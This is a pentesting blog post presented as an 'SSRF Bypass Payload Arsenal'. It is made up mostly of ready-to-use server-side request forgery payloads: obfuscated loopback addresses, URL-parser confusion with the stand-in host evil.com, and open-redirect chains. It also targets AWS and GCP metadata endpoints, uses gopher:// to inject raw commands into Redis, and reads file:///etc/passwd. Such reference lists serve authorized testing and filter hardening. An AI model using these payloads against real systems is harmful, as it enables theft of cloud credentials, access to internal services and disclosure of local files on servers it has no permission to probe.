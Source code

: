 ```yaml
---
title: " SSRF Bypass Payload Arsenal"
date: 2025-07-26 00:00:00 +0530
categories: [Vulnerability, SSRF]
tags: [Pentesting, Bug Bounty, SSRF, Vulnerability]
---
```


**These help bypass SSRF filters or reach internal services despite basic protections.**

### Common SSRF Filters You Might Face
-   Allowlist/Blacklist of domain or IP
-   `url.startsWith("http://")` or regex filtering
-   IP resolution checks (blocking `127.0.0.1`, etc.)
-   Schema restrictions (`http` only)

### IP Obfuscation Tricks

| Format | Payload Example | Purpose |
|--|--|
| Decimal | http://2130706433/ | 2130706433 = 127.0.0.1 |
| Hex | http://0x7f000001/ | Same as 127.0.0.1 |
| Octal | http://0177.0.0.1/ | Works if octal parsing is enabled |
| Mixed | http://127.1/ , http://127.000.000.001/ | Abbreviated loopback |
| Dotted Hex | http://0x7f.0x00.0x00.0x01/ | Segment-based hex |
| IPv6 | http://[::1]/ | Loopback IPv6 |
| DNS rebinding | Point DNS to internal IP | Server sees public IP but resolves internal |
| Encoded dots | http://127%2e0%2e0%2e1/ | URL-encoded dot bypass |

### Hostname Tricks

| Trick Type | Example |
|--|--|
| @ Symbol Confusion | http://127.0.0.1@evil.com/ |
| Reversed @ | http://evil.com@127.0.0.1/ |
| Fragment Bypass | http://127.0.0.1#evil.com/ |
| Encoded Fragment | http://127.0.0.1%23evil.com/ |

### Redirection & Open Redirect

| Type | Example |
|--|--|
| Redirect → Internal | http://evil.com/redirect?url=127.0.0.1 |
| Double Redirect Chain | evil.com → internal.com → 127.0.0.1 |
| URL Shortener Bypass | tinyurl.com/internalip |

### Redirect Bypass Tricks
```bash
http://evil.com/redirect?next=http://127.0.0.1/
```

| Trick | Description |
|--|--|
| Open Redirect + SSRF | Combine vulnerable redirect to reach internal resources |
| Double Redirect | Redirects to a URL that further redirects to internal IP |
| Wildcard DNS | Use domains like anything.yourdomain.com to simulate internal subdomains |
| URL shorteners | TinyURL or your own shortener to mask real internal target |

### URL Parser Confusion Tricks

| Payload | Behavior |
|--|--|
| http://127.0.0.1@evil.com/ | Looks like internal IP, but resolves to evil.com |
| http://evil.com@127.0.0.1/ | Most parsers think host is 127.0.0.1 |
| http://127.0.0.1#evil.com/ | Fragment ignored by server, only browser cares |
| http://127.0.0.1%23evil.com/ | Encoded # to confuse filters |

### SSRF to Internal Services
| Target | Payload |
|--|--|
| AWS Metadata | http://169.254.169.254/latest/meta-data/ |
| GCP Metadata | http://169.254.169.254/computeMetadata/v1/ (Add Metadata-Flavor: Google ) |
| Docker socket | http://localhost:2375/containers/json |
| Redis | gopher://127.0.0.1:6379/_PING |
| MySQL | mysql://127.0.0.1:3306/ |
| Memcached | memcached://127.0.0.1:11211

### Protocol Smuggling (Advanced)
If server allows more than `http://` ,  try :

-   `file://` – access local files
-   `gopher://` – inject raw bytes (Redis, FTP, etc.)
-   `dict://127.0.0.1:11211/` – another bypass channel
-   `ftp://`, `sftp://`, etc. – protocol abuse

Example :

```bash
gopher://127.0.0.1:6379/_%2a1%0d%0a%24%34%0d%0aPING%0d%0a
```

| Protocol | Payload Example |
|--|--|
| file:// | file:///etc/passwd |
| gopher:// | gopher://127.0.0.1:6379/... |
| dict:// | dict://127.0.0.1/ |
| ftp:// | ftp://127.0.0.1/ |

